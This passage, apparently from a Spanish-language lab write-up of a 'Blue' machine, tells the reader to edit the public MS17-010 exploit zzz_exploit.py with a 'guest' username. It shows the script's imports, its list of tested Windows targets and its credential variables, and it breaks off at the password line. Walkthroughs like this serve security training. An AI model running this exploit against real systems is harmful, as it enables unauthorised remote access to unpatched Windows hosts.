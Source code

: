 ![img](./img/blue/Pasted%20image%2020240626124219.png)

Para poder correr ahora el Exploit `zzz_exploit.py` para obtener acceso a la maquina , debemos de realizar los siguientes cambios, y agregar el usuario `guest` en la variable `USERNAME`.

```python
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = 'guest'
PASSWORD = '
```
